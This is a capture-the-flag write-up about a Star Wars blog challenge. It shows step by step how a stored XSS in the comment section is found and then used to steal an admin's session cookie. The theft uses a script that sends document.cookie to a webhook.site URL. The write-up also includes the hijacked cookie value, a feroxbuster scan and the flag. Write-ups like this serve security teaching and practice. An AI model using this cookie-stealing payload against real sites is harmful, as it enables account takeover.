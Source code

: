 >Author: @congon4tor#2334  
>
>If you love Star Wars as much as I do you need to check out this blog!
---------------------
Firstly comes logging in. After trying and failing a few easy guesses like admin:admin, I made my own account with username `asdf`. Upon entering we are led to a blog post:

![[Pasted image 20230615231203.png]]

We see a comment section and not much else, so of course we have to check for XSS
```
<script>alert('XSS');</script>
```

![[Pasted image 20230615231619.png]]

Our XSS was a hit, but also we can see notice that an admin should review our comment. This setup seems prime for a cookie hijack through XSS. I will use webhook.site to receive the cookie request.
```
<script>
document.write(``'<img src="https://webhook.site/538e246b-2888-428c-b201-75331cefc008?c='``+document.cookie+``'" />'``);
</script>
```

This XSS generates an image pointing to my webhook.site link, and adds the user's `document.cookie` to the end of the url. And so, when a victim views this page, the image will attempt to be loaded by visiting my webhook. The webhook will log the request information and with it, I will be able to see whatever cookies are associated with the victim's session.

![[Pasted image 20230615230950.png]]
Indeed we see a cookie: `x-wing=eyJfcGVybWFuZW50Ijp0cnVlLCJpZCI6MX0.ZIvRmQ.20AcIM9F-Kg8q21j8Pc4mVl2aO0`

By substituting our X-wing cookie for this one, we become admin. Revisiting the page, nothing has changed. After a quick directory enumeration, we can find a new page by visiting `/admin`. This is pretty guessable, although I do concede to running `feroxbuster` to point it out to me:
```bash
feroxbuster -u http://challenge.nahamcon.com:30413/
<...SNIP...>
02      GET        4l       28w      303c http://challenge.nahamcon.com:30413/admin
<...SNIP...>
```

When visiting /admin while having the token, we can find the flag.

![[Pasted image 20230615230911.png]]

`flag{a538c88890d45a382e44dfd00296a99b}`